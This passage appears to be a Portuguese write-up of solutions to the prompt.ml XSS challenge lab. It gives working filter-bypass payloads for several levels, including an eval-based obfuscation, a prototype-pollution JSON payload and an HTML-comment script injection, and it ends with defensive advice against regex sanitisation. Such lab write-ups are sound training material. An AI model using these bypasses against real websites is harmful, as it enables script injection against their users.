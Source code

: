 [Ir para o desafio B](#-desafio-b--filtro-de-operadores)

### 🔹 C desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_C✅.png'></center>

```
eval(630038579..toString(30))(1)
```

[Ir para o desafio C](#-desafio-c--encodeuricomponent--filtro)

### 🔹 D desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_D✅.png'></center>

```
{"source":"_-_invalid-URL_-_","__proto__":{"source":"$`onerror=prompt(1)>"}}
```

[Ir para o desafio D](#-desafio-c--encodeuricomponent--filtro)

### 🔹 E desafio

**Resolução pendente.**

[Ir para o desafio E](#-desafio-e--incompleta)

### 🔹 F desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_F✅.png'></center>
[Ir para o desafio F](#-desafio-f--segmentação--título-limitado)

Um truque que podemos usar aqui é usar comentários **HTML** `<script>prompt(1)</script>

```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>

```

---

## ✅ Conclusão

O **prompt.ml** é um laboratório de **XSS** criativo. Cada nível reforça conceitos como:

* Limitações de **regex** e por que não são suficientes para segurança.
* Vetores via **atributos/eventos**, **comentários**, **entidades/Unicode**.
* Injeções em **contextos distintos** (**HTML**, atributos, **JSON**, `src`, forms).
* Truques de **prototype pollution** e **URI schemes**.

**Lição principal:** a sanitização por **regex** é frágil. Prefira:

* Inserir dados via **API do DOM** (`textContent`, `setAttribute`).
* **Escapar corretamente** (`& < > " ' /`).
* Aplicar **CSP** e validações por **whitelist** robustas.

> **Restante a completar:** payloads exemplares dos níveis **9** e **E** (dependem de variantes específicas do jogo/navegador).